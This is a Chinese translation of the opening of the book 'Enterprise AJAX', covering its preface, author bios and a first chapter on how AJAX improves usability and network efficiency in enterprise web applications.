# Enterprise AJAX：构建高性能 Web 应用策略

当大批量购买或特别销售时，出版商为此书提供极好的折扣，这可能包括电子版本和/或根据您的业务、培训目标、营销重点和品牌利益定制的封面和内容。欲了解更多信息，请联系：

- 美国企业及政府销售
  - (800) 382-3419
  - corpsales@pearsontechgroup.com

美国境外销售，请联系：

- 国际销售
  - international@pearsoned.com

## 目录

425

- 美国国防部用 Web 2.0 重新武装
  - 背景
  - 挑战
  - 解决方案
  - 使用的技术
  - 成果
- Agrium 将 AJAX 集成到运营中
  - 背景
  - 挑战
  - 解决方案
  - 使用的技术
  - 成果
- AJAX 助力国际运输与物流公司
  - 背景
  - 挑战
  - 解决方案
  - 使用的技术
  - 成果
- 总结
- 资源

## 附录 A OpenAjax 集线器

443

- 关键特性：集线器的发布/订阅管理器
- 示例
- OpenAjax 集线器的未来工具包支持

## 前言

如果你和我们遇到的许多有才华的开发者一样，你对 AJAX 感兴趣，并想知道如何利用它来改进你的 Web 应用程序。你可能甚至已经在在线做了一些初步研究，查看了`Ajaxian.com`，或者阅读了一本关于 AJAX 开发的入门书籍。如果没有，那么你属于更大一群只想涉足 AJAX 并希望入门的有才华的人。在某种程度上，我们都曾经历过。好消息是，作为一个开发者社区，我们终于开始理解这件事了。归根结底，它并不那么难。

我们决定写这本书，是因为我们感到沮丧，关于 AJAX 开发中更高级主题的信息很少。这主要是因为行业中的人们仍在“撰写”其中一些主题的书籍，尽管已经主流使用了几年，AJAX 才刚刚进入企业软件栈。我们希望创建一个信息资源，对这个领域的企业开发者有兴趣。为此，我们尝试将当前的开发方法与 JavaScript 和构成 AJAX 的其他技术结合起来，并以任何企业开发者都熟悉和易于接受的方式呈现。

### 为什么你需要这本书？

这些内容大部分源于我们在 Nitobi（`www.nitobi.com`）构建 AJAX 应用程序和用户界面组件多年的直接经验。我们认为这代表了我们在此期间获得的知识的一个优秀横截面，应该能为希望将 AJAX 纳入其开发项目的开发者提供有用的资源。如果你有兴趣在 JavaScript 开发、排查 AJAX 怪癖和性能问题以及从头开始设计可用软件等领域变得更熟练，这本书应该是一个极佳的资源。

我们花了相当多的时间来讨论如何以对 Java 或 C# 开发者熟悉的方式编写 JavaScript 代码，以便你能快速上手。为此，我们以熟悉的软件设计模式为前提来描述 AJAX 开发，并包含一些 AJAX 开发中最热门主题的信息，例如安全性和离线存储。我们还提供了构建高性能 AJAX 应用程序的真实解决方案，不仅通过代码优化，还通过利用互联网基础设施的支柱，如缓存。

这本书与其他 AJAX 书籍略有不同，因为我们试图呈现一个全面的讨论——当然包括大量关于编程的建议，以及关于应用程序可用性、可访问性和国际化等问题的相当多的讨论。它还包括一个用于评估 AJAX 开发项目风险的框架，并重点介绍了一些在真实企业应用程序中使用 AJAX 的开发者，以了解可以从他们的经验中学到什么。

### 这本书是为谁写的？

《企业 AJAX》是为中级到高级的服务器端开发者（Java、面向对象 PHP 或 ASP.NET）编写的。书中的许多概念借鉴了“四人帮”（即 Erich Gamma、Richard Helm、Ralph Johnson 和 John Vlissides，《设计模式：可复用面向对象软件的基础》[Addison-Wesley Professional]的作者）引入的经典软件工程模式。读者将受益于对软件设计模式的基本理解，或者至少有兴趣了解更多，因为它们贯穿全书。我们希望通过使用熟悉的模式来呈现 AJAX，能帮助更有经验的开发者更容易地理解这些概念和思想。

也许比理解模式更重要的是，你理想情况下应该至少具备 JavaScript、HTML 和 CSS 的基本知识。甚至对 XML、XSLT 或 JSON 的一些理解也会有所帮助，尽管不是必需的。此外，我们期望你具有面向对象语言（如 Java、C# 或 PHP）的服务器端编程经验。

阅读本书后，开发者应该熟悉构成 AJAX 技术栈的各个部分，并熟悉面向对象的 JavaScript 开发。同样，你将对可用于开发 AJAX 应用程序的工具有很好的了解，并对各种 AJAX 问题（如安全性、可用性和可访问性）有深入的了解。

### 内容概览

我们从第 1 章“AJAX 与富互联网应用程序”开始，涵盖 AJAX 应用程序是什么以及各个部分如何契合的基础知识。我们还讨论了 Web 应用程序的演变以及 AJAX 成为基于 Web 的应用程序首选解决方案的一些原因。

在第 2 章“AJAX 构建块”中，我们深入探讨 AJAX 技术栈。这包括关于正确编写 JavaScript 代码的关键信息，我们特别关注面向对象的 JavaScript 开发、文档对象模型、层叠样式表、事件和`XMLHttpRequest`对象，以及与将数据从客户端传输到服务器相关的其他问题。

第 3 章“Web 浏览器中的 AJAX”以第 2 章为基础，为理解主要浏览器差异奠定了基础，并在此基础上探讨如何使用模型-视图-控制器设计模式构建 AJAX 应用程序。特别是，你将看到如何在 JavaScript 中编写客户端模型，如何从数据生成 HTML 视图，以及如何使用基于 JavaScript 的控制器（依赖于发布-订阅事件系统）来连接模型和视图。

在第 4 章“AJAX 组件”中，我们准备探讨如何构建用于 Web 应用程序的 AJAX 用户界面组件。特别是，我们研究了命令式和声明式方法之间的差异，并在呈现构建基于 AJAX 的数据网格组件的完整示例的同时，探讨了声明式方法的一些注意事项。

在本书的这个阶段，我们探讨了 AJAX 开发的一些总体目标和问题。第 5 章“从设计到部署”特别探讨了 AJAX 在整个软件开发生命周期中的独特问题，从应用程序设计到测试再到部署。你读完这一章后，应该能很好地了解各种 AJAX 性能问题，以及在 AJAX 开发项目从始至终都有用的许多工具。

第 6 章“AJAX 架构”向读者介绍了与 AJAX 开发相关的各种架构问题。这包括研究异步消息传递模式以及服务器通信方法，例如服务器推送、缓存、扩展和离线 AJAX。尽管其中许多问题在任何基于 Web 的应用程序中都很常见，但我们从独特的 AJAX 视角来处理这些问题。

在第 6 章的基础上，第 7 章“Web 服务和安全”讨论了 AJAX 如何在 Web 浏览器中使用 Web 服务融入面向服务的架构，以及在构建 AJAX Web 应用程序时可能出现的不同安全问题。

第 8 章“AJAX 可用性”开启了本书的最后一部分，探讨了与可用性相关的一些重要主题，特别是它们如何应用于为日常用户构建 AJAX 应用程序。第 8 章中引人关注的是针对常见问题的完整解决方案，例如后退按钮问题以及解决可访问性和国际化的方法。

第 9 章“用户界面模式”是关于一些强大的 AJAX 用户界面模式的实践探索，包括就地编辑、主详细信息、实时表单和拖放。这些是开发人员在构建几乎任何 AJAX 应用程序时都应该了解的核心用户界面设计模式。

在第 10 章“风险和最佳实践”中，我们转换方向，探讨开发可扩展的企业级 AJAX 应用程序时风险的来源。这可能是 AJAX 书籍中最少探讨的主题，但在考虑构建新应用程序时，它与技术本身同等重要。

最后，在第 11 章“案例研究”中，我们研究了一些在要求苛刻的企业环境中的实际 AJAX 实现。我们与开发人员交谈，听取他们做对了什么、做错了什么，以及下次他们会如何改进。

总而言之，我们希望这能让你对 AJAX 开发有一个新的视角，最重要的是，你能够掌握一些新技能，并将其应用到你的开发项目中。

## 支持/反馈

当然，我们尽力确保本书中的所有信息尽可能保持最新和正确，但错误难免会遗漏。我们预先为任何不准确之处道歉。请访问书籍网站`http://www.enterpriseajax.com`获取任何勘误信息。

此外，您可以在网站上找到本书的所有源代码以方便下载。所有源代码均在 GPL 许可证下提供。

我们也很渴望获得关于本书、代码示例等的反馈，以便用于下一版。请将这些反馈发送至`enterpriseajax@nito-bi.com`。

## 致谢

如果没有许多幕后人员的慷慨支持，这份手稿是不可能完成的。我们要感谢我们的出版商 Prentice Hall，特别是 Mark Taub，他使整个项目得以顺利进行。Brent Ashley、Uche Ogbuji 和 John Peterson 对本书提供了非常有用的反馈；我们深表感谢。我们还要感谢 Nitobi 的支持团队，他们在我们撰写章节时分担了工作，并贡献了技术和编辑知识：James Douma、Jake Devine、Joel Gerard、Mike Han 和 Brian Leroux。

Dave Johnson：当然，我要感谢 Alexei 和 Andre 在完成这个项目上给予的帮助，以及其他一些在幕后帮助我们的人，例如 Jordan Frank。当然，Kristin 在保持我理智方面功不可没，而且我一直确信要始终相信 Jack 的话。

Alexei White：除了已经提到的人，我特别想感谢我的合著者 Dave 和 Andre，以及这个项目的许多其他贡献者，他们都以这样或那样的方式贡献了自己的专业知识。这些人包括 Bill Scott、Christian Van Eeden、Dave Huffman、Mike Hornby-Smith、Bob Regan、Gez Lemon 和 Luke Wroblewski。我还要感谢 Lara 在我只想玩飞盘时鼓励我坐下来工作。

Andre Charland：首先我要感谢我的合著者 Dave Johnson 和 Alexei 允许我参与这本书的编写。这是一项荣誉，也非常有价值。我要感谢我的爸爸妈妈和 Jonny，他们在我想放弃的时候推动我坚持下去。

## 关于作者

Dave Johnson

Dave 是 Nitobi Software 的联合创始人兼首席技术官，这是一家位于温哥华的 AJAX 组件供应商和咨询公司。Dave 大部分时间致力于为基于 Web 的应用程序设计和构建高性能的 AJAX 组件。Nitobi 的核心重点是构建 AJAX 组件和用户界面，通过提高生产力和效率为客户提供真正的价值。Dave 在世界各地就 AJAX 和 Web 开发表发表过演讲，包括 AJAXWorld 2006、XTech 2007 和 JavaOne 2007。Dave 拥有英属哥伦比亚大学电气工程学理学学士学位，并正在伦敦帝国理工学院完成他的博士学位。

Alexei White

Alexei 是一位开发人员、设计师和用户体验倡导者。作为 Nitobi 组件工具的产品经理以及 AJAX 组件和应用程序的长期开发人员，他试图找到构建更快、更便宜且用户喜爱的 Web 应用程序的方法。他是 RobotReplay（`www.robotreplay.com`）的主要架构师，这是 Nitobi 的下一代网络分析工具，以及 SayZu（`www.sayzu.com`），一个由 AJAX 驱动的、新兴的网络调查服务。在 Nitobi，他参与了许多关键任务和大规模 Web 应用程序的设计和开发，重点关注丰富的、由 AJAX 驱动的界面。Alexei 拥有英属哥伦比亚大学商学学士学位，现居温哥华。

Andre Charland

Andre Charland 在为其他几家互联网初创公司工作后，于 1988 年联合创立了 Nitobi。作为总裁兼首席执行官，他直接参与软件开发，并成功执行了超过 100 个开发项目。他也是 AJAX 基础构建模块的早期支持者。Andre 在 AJAX、博客和网络可用性方面发表了广泛的演讲。他曾在国际媒体上被引用谈论博客在商业中的应用，并在`http://captainajax.com`上维护自己的博客。Charland 是 BALLE BC 董事会成员，也是 Social Tech Brewing Co. 的联合创始人。

# 第 1 章 AJAX 与富互联网应用程序

传统的基于 Web 的应用程序在当今企业中随处可见。它们被用于从客户关系管理（CRM）到企业资源规划（ERP）的方方面面。尽管有用，但这些应用程序在很大程度上主要依赖传统的 Web 应用程序支柱，即 HTML 表单和任何首选的服务器端编程来完成繁重的工作。在这些传统的 Web 应用程序中，用户界面（UI）通常是僵化且不交互的，用户输入的任何数据都需要完全刷新网页才能提交到服务器。不熟悉的基于 HTML 表单的 UI 与刷新整个网页（数据、样式、结构等）所关联的漫长延迟相结合，可能会给最终用户带来极其乏味的体验。

这正是异步 JavaScript 和 XML（AJAX）可以成为提高 Web 应用程序可用性的有用工具的地方。它正在催生一类新型 Web 应用程序，可以扩展用户在 Web 浏览器中所能完成的功能的可能性。AJAX 不仅改进了陈旧过时的 Web 架构，还使得基于 Web 的应用程序在可用性和用户体验方面能够与桌面应用程序相媲美甚至超越。AJAX 甚至允许强大的新应用程序工作流和可视化，这些目前没有基于桌面软件的等效物——这并不一定是由于桌面开发人员的技术缺陷，但肯定是因为 AJAX 使大多数 Web 开发人员能够实现富互联网应用程序（RIA）。从这个角度来看，AJAX 已经改变并将继续改变用户看待传统 Web 和桌面应用程序的方式。

尽管 AJAX 最近因其在流行的 Google Web 应用程序（如 GMail 和 Google Maps）中的使用而广受赞誉，但实际上，它以及构成其基础的技术已经存在构成 AJAX 缩写，至今已有近十年历史。AJAX 本质上只是对动态 HTML（DHTML）的重新命名，后者过去曾被开发者社区冷落，如今却备受追捧。大多数与 AJAX 相关的技术和技巧都已被充分理解。尽管 AJAX 在公共 Web 应用开发中尤为流行，但它也开始在企业环境中崭露头角。本书将向习惯于在企业中从事传统 Web 应用开发的开发者介绍 AJAX，涵盖从 CRM 到电子商务应用开发的各个方面。我们介绍 AJAX 技术，为开发者打下坚实的技术基础，使其能够构建高级 AJAX 应用，从而提升应用可用性，进而影响企业的最终效益。

然而，人们不禁要问：“像 AJAX 这样的富客户端技术在企业中处于什么地位？”你可以从至少三个方面来思考其优势：

- AJAX 可以改进并增强终端用户的用户体验，使他们更高效、更满意。
- AJAX 可以减少对网络和服务器基础设施的需求，通过降低维护成本甚至带宽来节省资金，并为所有用户提高服务质量。
- AJAX 能够创造传统应用模型中无法实现或不切实际的新功能可能性，为用户提供实现目标的新工具。

要理解这一切为何能够实现，你需要认识到传统 Web 应用模型的局限性有多么惊人，以及 AJAX 如何通过其组成部分的协同作用创造更多价值。创新 Web 体验的机遇推动了`XMLHttpRequest`、JavaScript 和级联样式表（CSS）的使用，并为企业创造了新的机会。

毫无疑问，企业 AJAX 营销机器正开足马力。企业厂商以多种形式支持 AJAX。IBM 发起了 Open AJAX 联盟，Dojo 主导着 Web 开发讨论区。微软发布了 ASP.Net AJAX，Google 则推出了面向 Java 开发者的 Web 工具包（GWT）。Oracle 拥有 ADF，这是一套用于 Java Server Faces 的 AJAX 组件，而 Yahoo 发布了 Yahoo 用户界面库（YUI）。Adobe 通过 FA Bridge 支持 Flex 与 AJAX 的集成，并发布了一个名为 Spry 的开源 AJAX 框架。然而，这一切背后真正且迫切的需求是改进企业 Web 应用的设计方式。

## 变化的 Web

微软在 90 年代末的 Internet Explorer 5 中首次引入了实现 AJAX 功能所需的核心技术——`XMLHttpRequest`（XHR）对象。与此同时，它还推出了 Outlook Web Access（OWA），这是一个令人印象深刻的 AJAX 界面，远远领先于当时的时代。当时的主要缺点是 XHR 无法在其他浏览器中使用，并且社区强烈抵制锁定于另一个微软工具或平台。这一点可以从主流开发中直到最近才缓慢采用 XHR 得到证明。

随着 XHR 远程脚本最终在 Firefox 和 Safari 中引入，以跨浏览器方式构建丰富的异步通信成为可能。这意味着 XHR 可以部署给广泛且多样化的用户群体，而几乎没有风险。当与 JavaScript、DHTML 和 CSS 结合时，就可以构建富客户端应用程序，而不会出现 Web 应用程序特有的烦人刷新问题。与后文讨论的许多其他富客户端技术不同，AJAX 基于不同浏览器和操作系统支持的开放标准——这几乎消除了对供应商锁定的担忧，并增加了可移植性的机会。

在传统应用程序中，一切都围绕着网页作为应用程序的静态视图展开，而该应用程序完全基于 Web 服务器。唯一可能的用户交互是向 Web 表单输入数据或单击链接——无论哪种情况，都会导致整个页面刷新，无论是在 CRM 应用程序中更新整个客户记录，还是在查看客户记录和编辑客户记录之间更改应用程序状态。在某些方面，传统 Web 应用程序还有很多需要改进的地方——例如在输入大量数据时。同时，传统 Web 应用程序在许多情况下表现出色；搜索引擎或文档库等应用程序长期以来一直是传统 Web 应用程序有用且成功的例子。此外，传统 Web 的优势，例如 HTTP 协议和资源缓存，也是基于 AJAX 的应用程序所使用的优势。

# 第 1 章 AJAX 与富互联网应用程序

与流行的 AJAX 地图或电子邮件应用程序不同，大多数企业 Web 应用程序围绕数据输入、数据编辑或数据报告构建。最常见的数据输入应用程序由一系列数据组成，例如 CRM 应用程序中的客户记录或销售信息，其中可以向列表中添加、删除或编辑项目。让我们看看当一位精明的销售员被要求使用新的但极其缓慢的在线 CRM 工具来跟踪他的会议、联系人和销售过程进展时，用户交互在传统 Web 应用程序和基于 AJAX 的 Web 应用程序中是如何展开的。

## 传统 Web 应用程序的痛点


当销售员登录应用程序时，他面对的是一个包含十条潜在客户记录列表的网页。在大多数传统 Web 应用程序中，此类功能将通过一个静态 HTML `<table>` 来实现，其中列出了每条数据记录，旁边是链接到编辑和删除页面的按钮。

销售员现在想用一些新信息更新一条记录。第一个任务是找到该记录。如果它不在前十条记录中，他就必须搜索，这需要通过翻页浏览列表中的数据并等待页面刷新来完成。当他找到记录时，他单击“编辑”按钮。单击“编辑”按钮向服务器发送一个请求；然后，一个新的页面被发送到 Web 浏览器，该页面上有多个表单字段。

大多数表单字段是文本字段；有些提供复选框、下拉列表或简单的数据验证（例如检查确保本地电话号码为七位数）。在数据编辑表单上，除了传统的 Tab 和 Shift + Tab 功能用于在编辑字段之间移动外，几乎没有其他键盘快捷键。

数据编辑完成后，用户单击页面底部的“保存”按钮，将数据发送到服务器，以便服务器验证数据并将其提交到数据库。另一个页面被发送回浏览器以确认保存。如果数据出现错误，用户会在表单页面上收到一个视觉提示，该页面需要发送回浏览器，进行相应的编辑，然后再次单击“提交”按钮。如果你每天必须多次执行相同的操作，这个过程相当缓慢且乏味。

与其为编辑数据设置一个单独的表单，不如将数据列表网页更新为编辑页面，其中每条数据记录都可以立即编辑。所有更改完成后，它们可以提交给服务器进行保存。出于可用性的考虑，许多传统 Web 应用程序可能会使用这种类型的 UI，而不是前面描述的单条记录编辑场景。

当用户决定保存数据时，它必须一次性保存，而不是在用户输入或更新时增量保存。这意味着所有数据必须以大批量方式发送到服务器，这可能导致以下几种可能的结果：

- 并发性或验证问题迫使所有数据以繁忙且难以理解的格式重新显示，促使用户一次修复多个数据问题。
- 瞬时网络或服务器错误可能导致数据损坏或完全丢失，终端用户几乎无法重新提交数据。
- 用户身份验证失败，所有更改都会丢失。

无论结果如何，通常都会导致多次长时间的页面刷新，因为服务器将数据持久化到数据库并重定向到新的网页，给终端用户带来极大的沮丧和痛苦。用户与应用程序之间的交互如图 1.1 中的序列图所示。特别值得注意的是用户空闲等待服务器响应的时间段。（这段时间通常用来玩纸牌游戏。）



**图 1.1** 传统 Web 应用程序数据编辑工作流的序列图——虚线框表示终端用户在服务器执行处理时被迫等待的时间段

HTML 表单对于面向新手用户或操作频率较低的特定类型服务确实有意义；然而，对于需要快速浏览和即时编辑大量复杂数据的应用程序而言，它们的使用体验令人痛苦。如果用户需要将数据从电子表格或电子邮件复制到应用程序中，就意味着要重新输入所有内容或逐条复制粘贴数据。可用性专家有时会指出：……意识到这不是一种高效的工作方式，是一种繁琐的体验。

## AJAX 止痛剂

与传统的高容量数据录入网页表单方法不同，一个有效的应用程序需要具备响应性和直观性。为此，其对用户工作流程的影响应当最小化；例如，用户需要能够滚动浏览成千上万条潜在客户记录，就好像数据是直接从本地计算机访问一样，而不是每次翻阅十页记录。他们还需要能够在数据保存到服务器的同时，继续向应用程序输入数据。

并且，应用程序的界面规范和交互必须尽可能接近桌面应用程序，以减少用户将思维过程从桌面环境切换到网络环境所需的时间。一个用于快速数据录入的理想界面需要类似于电子表格，但每一列都绑定到数据库表中的特定字段。

尽管像传统应用程序一样，数据会列在一个简单的 HTML `<table>` 中，但界面中任何记录的数据在点击时会立即变得可编辑，并在用户按 Enter 键时保存到服务器——这与大多数电子表格应用程序的情况相同。如果在保存过程中由于数据库并发问题而发生错误，这些信息会动态显示在界面上，实时指出哪些数据出现了错误。

同样，在编辑数据并按下 Enter 键后，焦点会自动移动到下一条记录，该记录可以立即通过按任何键盘键进行编辑，这也是桌面电子表格应用程序的典型行为，如图 1.2 所示。你可以看到，通过使用 AJAX，用户永远不会被迫在等待服务器响应时无所事事。相反，用户可以在保存操作的响应返回到浏览器之前继续编辑数据。

这种基于 AJAX 的用户交互的关键在于，它专注于向服务器发送和接收小块数据，而不是一个完全由服务器组装的、完整的 HTML 渲染网页。正是这一点使得用户能够在网络浏览器中编辑客户记录，而无需向服务器发出任何请求，直到数据准备好保存。即便如此，网页也不会刷新，因为只有编辑过的数据会在后台通过 AJAX 功能异步发送到服务器。

在示例应用程序中，其他快捷键也需要工作，例如 Ctrl + N 用于创建新记录，Ctrl + V 用于直接从文本文档或电子表格将数据粘贴到 Web 应用程序中。（见图 1.3。）此外，可以使用服务器端数据验证，以便用户能够获得有关数据库中用户名或电子邮件地址可用性的实时反馈，从而进一步减少页面刷新的次数。

**图 1.3** 展示桌面电子表格功能（如支持鼠标的数据选择）的 AJAX 数据网格应用程序截图，包括启用功能（如数据复制和粘贴）

保护用户免受自身错误和网络影响是 AJAX 架构中你可以利用的另一个可用性优势。花费时间填写一个很长的 HTML 表单，结果却失去连接，然后无法将你的操作或数据条目提交回服务器或数据库，这会令人非常沮丧。

使用 AJAX，你可以不断地异步将数据发送回服务器。这也允许你随时保持服务器端和客户端数据的同步。尽管你可能不希望不必要地在每次击键时都将更改提交到数据库，但你可以将数据推送到服务器，甚至将其本地存储，以保护用户免因网络中断或客户端系统问题而丢失数据。

## 企业中的 AJAX

直到最近，JavaScript 的广泛使用充其量是有限的。由于浏览器支持不统一和安全顾虑，JavaScript 本身在历史上曾一度被禁止用于企业 Web 开发。Firefox 和 Internet Explorer 中 JavaScript 的现代化终于为开发者提供了一个可靠的平台来创建富应用程序，而 AJAX 这一术语的提出则提供了一个通用的称谓。

BZ Research 在 2006 年 9 月进行的一项调查（见图 1.4）发现，18.9% 的受访者表示其公司已经部署了使用 AJAX 的生产系统。¹ 另有 12.1% 的受访者表示他们正在开发第一个 AJAX 生产系统但尚未部署，14.2% 正在开发试点系统。此外，37.7% 的受访者正在积极研究该技术。仅有 9.5% 的受访者表示他们及其公司都没有使用 AJAX 的计划（7.6% 表示不知道）。

¹ <http://www.sdtimes.com/article/story-20060901-12.html>

**图 1.4** 2006 年企业中的 AJAX 使用情况（来源：SD Times）

从对合格开发者的需求来看，与 AJAX 相关的新职位空缺数量之多令人震惊。在图 1.5 中，你可以看到要求 AJAX 技能的职位空缺的增长情况。

**图 1.5** AJAX 职位趋势（来源 <http://www.indeed.com>）

这种需求是由那些因合理的经济原因而感受到现代化应用开发方法压力的组织所驱动的。这些驱动因素包括对更高可用性、改进网络基础设施利用以及更好数据架构的需求。

## 采用 AJAX 的驱动因素

企业应用开发容不得多余地使用高风险或不必要的技术。开发的核心是帮助员工更好地完成工作，帮助企业降低成本、获得竞争优势或简单来说就是赚钱。对任何新技术的投资都必须符合这些指导原则。作为开发者，如果你想成功开发出企业级软件，就需要关注企业采用 AJAX 的驱动因素。

### 可用性

尽管很明显 AJAX 首先是一种用户体验工具，但我们仍未解释其为何如此重要。我们的软件更易用真的重要吗？用户体验的机会有多大？

> “我估计，内部网站点的低可用性每年给全球经济造成 1000 亿美元的员工生产力损失。”
>
> ——雅各布·尼尔森博士，《万维网信息架构》第二版

与良好用户界面相关的一些好处是定性的，难以精确衡量。这并非暗示它们没有财务价值，但许多商业利益难以量化，经验丰富的 IT 经理凭直觉知道它们可以转化为显著的最终收益。当我们着眼于优化用户界面时，可以通过以下因素来衡量成功与否：

- **完成步骤数**——减少步骤数不仅意味着节省时间，还意味着减少出错机会。更少的错误意味着未来手动纠正这些错误时的成本节约。
- **熟悉用户界面的好处**——通常，基于 Web 的应用程序取代了具有更优用户界面的桌面应用程序。为用户提供与其在桌面上使用的相似甚至熟悉的界面，意味着更低的培训成本、更少的错误以及更高的初始生产力。
- **改进的应用程序响应性**——更具响应性的应用程序不仅能通过减少“等待时间”来提高生产力，还能促进更流畅、不间断的工作流程。在响应性强的应用程序中，用户可以像构想工作流程一样快速地从一个操作移动到另一个操作。响应性较差的应用程序会迫使用户持续等待信息显示，从而破坏用户对工作流程的构想。
- **优质信息的影响**——富客户端应用程序通过提供视觉反馈和用户界面功能提示，为用户提供更好的信息。（例如，按钮悬停时高亮显示，菜单选择时展开等。）表单可以立即对数据进行自身验证，而无需等待冗长的页面刷新，用户可以**在错误发生时**尽早发现错误，这有助于保持线性工作流程并避免错误。
- **直接数据可视化**——将大量数据处理卸载到客户端，连同客户端技术如动态 HTML (DHTML) 和可缩放矢量图形 (SVG)，意味着数据可以以新的动态和直观的方式进行可视化，减少了应用程序终端用户的认知负担。
- **支持量**——如果可用性提高，应该会对受影响应用程序的支持请求量产生影响。这是 IT 经理需要密切关注并将其作为用户界面可用性晴雨表的一项指标。

可用性常被提及为采用 AJAX 的原因，但很少被明确界定。在评估 AJAX 应用程序可用性时，重要的是从定量和定性两个角度审视该问题，并将结果与传统 Web 应用程序进行比较。AJAX 应用程序可用性的改进在定量上体现为用户错误减少或生产力提高，在定性上体现为用户反馈和偏好。

从经济角度讲，生产力通常是对每小时工作产出的衡量。因此，如果你能提高大量……

对于企业而言，对可用性进行投资显然具有价值。企业员工将大量时间用于使用基于网络的应用程序，这意味着改进这些工具能带来巨大的整体效益。AJAX 用户界面带来的生产力提升可能相当显著。在具有高数据吞吐量的应用中——例如数百或数千名员工每天或每小时执行数据录入——可以对生产力提升进行清晰的量化衡量。

使用具有 AJAX 用户界面的网络应用程序，每次鼠标点击肯定可以节省几秒钟，这省去了昂贵的网页刷新。当这一节省应用于整个业务流程中每日的每一个步骤时，累积起来非常可观。

通过思考一些与企业网络应用程序相关的简单用户交互，我们在本书中贯穿始终地遵循一些通用准则，这些准则能够提升你的网络应用程序的可用性。

### 发送即忘

从可用性角度出发，最基本需要考虑的是异步服务器交互的能力。异步交互意味着用户可以与应用程序交互并继续完成工作流目标，与此同时服务器正在处理之前的操作，例如将编辑后的数据持久化到数据库。

我们称之为“发送即忘”，因为发送给服务器的请求会立即执行，并且应用程序控制权*立即*返回给用户，然后用户就可以继续工作。当网络浏览器最终收到服务器的响应时，应用程序可以确保服务器上没有发生错误，并且用户不需要采取任何操作——不过，他们可能会在用户界面上看到一些微小的变化，表明操作成功。在极少数情况下，如果服务器发生错误，用户会被打断并收到错误通知，以便他们可以采取行动进行纠正。

这些对服务器的异步请求通过 JavaScript 在幕后进行，这同样重要，因为它使应用程序能够“发送即忘”，并消除了昂贵的页面刷新需求。简单来说，AJAX 使得用户界面更快、响应更及时，因此用户花在等待上的时间更少，用于工作的时间更多。

除了客户端效率的提升，我们还将向你展示如何通过缓存利用 AJAX 服务器请求来提升服务器性能，甚至可以将大量的应用程序业务逻辑移动到网络浏览器中的 JavaScript 代码中，从而进一步减少服务器负载。其连锁效应是减少了网络流量，并最终降低了最终用户的延迟。这方面一个极佳的例子是 Macrumors.com 如何使用 AJAX 将带宽减少了六倍，并且只需要一半数量的服务器。²

### 虚拟桌面

AJAX 网络应用程序相对于标准桌面应用程序的一个主要优势在于，它从一开始就构建为消费数据而非文档；这些数据可以来自中央网络服务器或外部网络服务。AJAX 应用程序围绕访问和展示数据展开。

与通常局限于本地数据存储或偶尔使用网络访问进行更新的桌面应用程序不同，基于 AJAX 的应用程序是可访问网络数据的消费者。使用浏览器在一个界面中编排和消费来自多个来源的数据功能强大，并开启了一系列全新的应用领域，我们将在后续详细探讨。我们已经看到了我们在消费有时甚至生产网页与文档方面的这种转变。现在，我们有能力仅通过浏览器就进一步消费和更新不同类型的数据。

在企业环境中，让用户感觉数据实际上就在他们本地计算机上，在许多场景下都很重要。在某些情况下，这是不可避免的，例如在许多金融系统中，需要实时向客户交付实时市场和交易数据。目前，许多此类应用程序是通过更重的技术交付的，这些技术不像通过网络浏览器交付的 AJAX 网络应用那样具有平台独立性或易于分发。

让用户感觉数据就在他们的桌面上，对于提高应用程序速度、进而提升用户生产力和效率大有帮助。

### 上下文切换

AJAX 为网络带来了我们早已习惯于桌面环境的交互性和高效性。我们已经提到 AJAX 与传统网络应用程序的一个巨大区别在于，AJAX 应用程序经常将桌面用户交互模式移植到网络应用程序中。

这样做的结果是，用户发现网络应用程序更易于使用，这得益于一些简单省时的机制，例如从桌面电子表格复制数据到基于网络的电子表格，以及在一天中切换使用桌面应用程序和网络应用程序时，用户不必改变他们关于应用程序可以执行和不能执行哪些操作的心智模型。

在考虑如何减少从桌面工作方式转变为网络工作方式所需时间的其他关键因素时，包括键盘快捷键、鼠标移动和通用用户界面设计模式。开发人员在构建具有高可用性的网络应用程序时需要考虑这些因素。

同时，我们需要意识到，通过 AJAX 还可以实现其他技术，经过一些用户培训，实际上可以对最终用户更加高效。其中一些用例包括拖放等操作，通过为用户提供更好的示能性来表明哪些对象可以拖动以及可以放置到哪里，对于提升应用程序可用性大有裨益。

### 网络利用率

除了定性的用户体验（UX）考量外，我们还可以通过量化指标来评估节省成本的潜力。最近一项关于 Developer.com³ 的研究发现，AJAX 有潜力将网络传输的字节数减少 73%，总传输时间减少 32%。在一个示例应用程序中，用户获得了以下可衡量的益处：

- 减少等待数据传输的时间——时间就是金钱。经过多次重复，员工花在等待页面加载上的时间累积起来可能达到相当高的成本。
- 完成特定任务所花的时间——用户界面效率的提升通常意味着任务层面时间的节省，为实现具体的成本节约提供了机会。
- **整个任务消耗的带宽**——带宽成本并非线性增长，但随着公司投资于更大容量的互联网连接和新的硬件以适应更大的服务器负载，成本确实会增加。一家公司的带宽成本结构取决于其运营规模和资本投资需求，但如果重复性任务消耗大量带宽，这些成本可能会急剧上升。消耗的带宽量也对时间节约有影响。

IT 经理可以将这些转化为来自提高员工生产力、降低培训和人员流动成本、减少人为错误、降低最终用户拒绝的可能性以及减轻网络基础设施需求的成本节约。难怪 AJAX 在企业中变得如此重要。

### 数据中心性

AJAX 架构的另一个重要驱动力和显著优势是围绕数据而非文档消费的根本定位。AJAX 与面向服务的架构（SOA）非常契合，可用于轻松消费和与网络服务交互，从而形成与数据的松散耦合关系。

使用浏览器在一个界面中编排和消费来自多个来源的数据功能强大，因为它开启了一系列全新的应用领域，我们将在后文详细探讨。

现在，我们有能力仅通过浏览器就进一步消费和更新不同类型的数据。使用 AJAX 技术，我们可以为托管在远程的大型数据集创建一个本地视图。

以*实时滚动*这种模式为例：它允许用户查看一个小窗口的数据，但使用滚动条，用户可以无缝地浏览整个数据库。当用户滚动时，会向数据库发送一个小型的 AJAX 请求以获取下一批记录，并更新用户的视图，而无需刷新页面。

